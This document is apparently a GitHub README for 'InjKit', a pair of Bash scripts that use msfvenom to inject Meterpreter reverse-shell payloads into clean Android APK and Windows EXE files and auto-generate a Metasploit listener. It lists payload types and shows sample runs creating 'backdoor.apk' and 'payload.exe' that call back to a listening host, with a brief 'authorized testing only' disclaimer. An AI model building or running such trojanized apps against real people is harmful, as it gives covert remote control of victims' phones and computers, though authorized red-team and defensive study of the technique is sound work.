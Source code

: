 Payload Injector Toolkit (APK & EXE)

InjKit is a lightweight Bash-based toolkit for injecting Metasploit Meterpreter reverse shell payloads into clean Android APK files or Windows EXE binaries using msfvenom.

It consists of two interactive scripts:

apk_injector.sh → injects payloads into APK files (Android).

exe_injector.sh → injects payloads into EXE files (Windows).


Both scripts:

Validate LHOST and LPORT.

Let you choose payload type (TCP, HTTP, HTTPS).

Verify file paths before injection.

Automatically generate a Metasploit listener script (listener.r).



---

📁 Included Scripts

1. apk_injector.sh — Android APK Injector

Injects a reverse shell payload into a clean APK.

🔧 Features:

Interactive prompts for LHOST, LPORT, payload selection.

Validates APK path and output filename.

Supports payloads:

android/meterpreter/reverse_tcp

android/meterpreter/reverse_http

android/meterpreter/reverse_https


Generates new APK with embedded payload.

Creates listener.r for Metasploit.



---

2. exe_injector.sh — Windows EXE Injector

Injects a reverse shell payload into a clean EXE.

🔧 Features:

Interactive prompts for LHOST, LPORT, payload type.

Detects EXE architecture automatically (x86 or x64).

Supports payloads:

windows/meterpreter/reverse_{tcp,http,https}

windows/x64/meterpreter/reverse_{tcp,http,https}


Validates EXE path and output filename.

Generates new EXE with embedded payload.

Creates listener.r for Metasploit.



---

🚀 Example Usage

APK Injector

chmod +x apk_injector.sh
./apk_injector.sh

🖥️ Sample Interaction:

===============================
        APK Payload Injector
===============================

🌐 Enter LHOST: 192.168.1.100
🎯 Enter LPORT: 4444
Select Payload Type:
1) android/meterpreter/reverse_tcp
2) android/meterpreter/reverse_http
3) android/meterpreter/reverse_https
Enter the path to a clean APK file: /root/app.apk
Enter the output file name (e.g., evil.apk): backdoor.apk

[*] Injecting payload into /root/app.apk...
[+] Payload injected successfully! Saved as: backdoor.apk
[+] Metasploit listener script saved as: listener.r
[*] You can run it using: msfconsole -r listener.r


---

EXE Injector

chmod +x exe_injector.sh
./exe_injector.sh

🖥️ Sample Interaction:

===============================
      EXE Payload Injector
===============================

🌐 Enter LHOST: 192.168.1.100
🎯 Enter LPORT: 5555
Enter the path to a clean EXE file (e.g., notepad.exe): /root/notepad.exe

=========================================
✅ Architecture detected: x64
=========================================

Select Payload Type (x64):
1) windows/x64/meterpreter/reverse_tcp
2) windows/x64/meterpreter/reverse_http
3) windows/x64/meterpreter/reverse_https
Enter choice [1-3]: 1

Enter the output file name (e.g., evil.exe): payload.exe

[*] Injecting payload (windows/x64/meterpreter/reverse_tcp) into /root/notepad.exe...
[+] Payload injected successfully! Saved as: payload.exe
[+] Metasploit listener script saved as: listener.r
[*] You can run it using: msfconsole -r listener.r


---

🎯 Listener Script (listener.r)

Each injection generates a listener.r file with the required commands for Metasploit:

msfconsole -r listener.r

This automatically starts the handler for the chosen payload.


---

⚠️ Notes

Requires Metasploit Framework installed (msfvenom, msfconsole).

Works on Linux systems (tested on Kali).

For educational and authorized penetration testing only.



---

💬 Feedback

Contributions, improvements, or suggestions are welcome.
Made for learning, red teaming, and ethical hacking.


---
